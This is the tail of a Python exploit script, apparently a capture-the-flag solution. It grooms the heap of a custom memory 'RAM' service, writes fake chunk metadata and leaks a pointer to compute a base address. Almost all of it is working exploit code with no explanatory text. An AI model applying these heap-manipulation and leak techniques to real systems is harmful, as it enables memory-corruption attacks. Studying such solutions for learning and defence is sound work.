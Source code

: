 ```py
        c1 = conn()
        c2 = conn()

        r = conn()
        ram_id = point_at(c1, 0x10530, 0x40)
        send_4_RAM_encrypt(
            c1, 
            ram_id, 
            0x40, 
            b"\x00"*8 + 
            0x21.to_bytes(8, "little") + 
            b"\x00"*8 +
            0x6.to_bytes(8, "little") + 
            0x20.to_bytes(8, "little") + 
            0x21.to_bytes(8, "little") +
            b"\x00"*8 +
            0x5.to_bytes(8, "little")
        )
        c1.close()
        c2.close()
        leak = send_3_RAM_decrypt(r, ram_id)
        r.close()
        return int.from_bytes(leak[0x30:0x38], "little") - 0x10690


def point_at(r, to_point, size):
    long  = to_point//(0x5c0c + 0xc*2 + 0x10)
    short = (to_point - long*(0x5c0c + 0xc*2 + 0x10))//0x20c
    done  = to_point - long*(0x5c0c + 0xc*2 + 0x10) - short*0x20c

    if done - 2*0xc < 0:
        raise Exception("Not good path found")

    if done - 2*0xc != 0:
        send_1_RAM_malloc(r, done-2*0xc, 0)
        Exploit.CURRENT_RAM_ID += 1

    for _ in range(long):
        send_1_RAM_malloc(r, 0x01, 1)
        send_1_RAM_malloc(r, 0x01, 1)
        send_4_RAM_encrypt(r, Exploit.CURRENT_RAM_ID, 0x10, b"b"*0x10)
        Exploit.CURRENT_RAM_ID += 2

    for _ in range(short):
        send_1_RAM_malloc(r, 0x200, 0)
        Exploit.CURRENT_RAM_ID += 1

    send_7_RAM_unfragment(r)
    send_1_RAM_malloc(r, size, 0)
    Exploit.CURRENT_RAM_ID += 1

    return Exploit.CURRENT_RAM_ID-1

def main():
    exp = Exploit()
    exp.exploit()

if __name__ == "__main__":
    main()
```
